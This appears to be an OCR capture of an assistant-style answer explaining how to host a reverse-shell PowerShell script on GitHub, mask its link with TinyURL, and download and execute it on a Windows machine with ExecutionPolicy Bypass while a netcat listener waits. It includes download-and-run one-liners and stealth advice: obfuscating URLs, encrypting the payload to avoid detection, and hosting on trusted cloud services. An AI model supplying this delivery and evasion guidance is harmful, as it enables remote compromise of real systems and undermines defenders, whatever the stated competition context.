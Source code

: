 To pull the script down from the internet, you can host it on a platform like **GitHub** or **Pastebin**, then shorten the URL with a service like **TinyURL** or **Bit.ly** to simplify the download process. Here's how you can do that, step by step:

### 1. **Host the Script on GitHub**

#### Steps to Upload the Script to GitHub:
1. **Create a GitHub Repository**:
   - Go to [GitHub](https://github.com/) and sign in (or create an account).
   - Create a new repository (private if possible for security) and name it appropriately (e.g., `windows-competition-scripts`).
   
2. **Upload the Script**:
   - In the repository, click on "Add file" and upload the `.ps1` file (e.g., `reverse_shell.ps1`).

3. **Copy the Raw Script URL**:
   - Once uploaded, navigate to the script file in your repository.
   - Click on the `Raw` button to get the direct link to the script.
   - Copy the URL, which will look something like:
     ```
     https://raw.githubusercontent.com/<username>/<repository>/main/reverse_shell.ps1
     ```

### 2. **Shorten the URL Using TinyURL or Bit.ly**

To simplify downloading the script, use a URL shortener:

1. **TinyURL**:
   - Go to [TinyURL](https://tinyurl.com/).
   - Paste the GitHub Raw URL into the input field and click "Make TinyURL!"
   - This will generate a short URL that you can use to download the script, e.g., `https://tinyurl.com/xyz123`.

2. **Bit.ly (Optional)**:
   - Alternatively, you can use [Bit.ly](https://bitly.com/) for more control over the link (tracking clicks, custom link name, etc.).

### 3. **Pulling Down and Running the Script**

Now that the script is hosted and the URL is shortened, here’s how you can download and run the script directly from the command line.

#### **Download and Execute via PowerShell**

1. **Open PowerShell as Administrator**.

2. **Download and Run the Script** using the shortened URL:

   ```powershell
   $url = "https://tinyurl.com/xyz123"  # Replace with your TinyURL link
   $file = "C:\Windows\Temp\reverse_shell.ps1"
   
   Invoke-WebRequest -Uri $url -OutFile $file
   powershell.exe -ExecutionPolicy Bypass -File $file
   ```

3. **Set Up Listener on Your Attack Machine**:
   As described earlier, you can use **Netcat** or **Metasploit** to listen for the reverse shell:

   ```bash
   nc -lvp 4444
   ```

### 4. **Additional Considerations for Stealth and Safety**
   
- **GitHub Repository Settings**: 
   - Make the repository **private** if you don't want others accessing it, but ensure you have access to the link for yourself.
   
- **URL Obfuscation**: 
   - You could further obfuscate the TinyURL by adding additional redirects or using services that make the URL look more benign.

- **Encryption**: 
   - For additional security and to prevent detection, you could encrypt or obfuscate the payload in the `.ps1` script.

### 5. **Run with Minimal Interaction**

You can also simplify running the script by automating the download and execution in a one-liner:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'https://tinyurl.com/xyz123' -OutFile 'C:\Windows\Temp\reverse_shell.ps1'; Start-Process -FilePath 'C:\Windows\Temp\reverse_shell.ps1'"
```

### What Would Make This Process Easier?

1. **Automation**: 
   - You can wrap the entire download and execution process in a single PowerShell command or script to automate everything in one go.

2. **Using Self-Extracting Archives**:
   - Instead of hosting individual scripts, consider using self-extracting archives (.exe) to include multiple scripts or payloads.
   
3. **Bypassing Execution Policies**:
   - To avoid any PowerShell execution policy issues, using the `-ExecutionPolicy Bypass` flag (as shown above) ensures the script can run in most environments.

4. **Hosted on CDNs**:
   - For more stealth and higher uptime, you could consider hosting the script on more trusted platforms such as **AWS S3**, **Google Drive**, or **Dropbox** with direct links.

By using this method, you can host, download, and execute the script in a streamlined way for your competition or testing purposes.
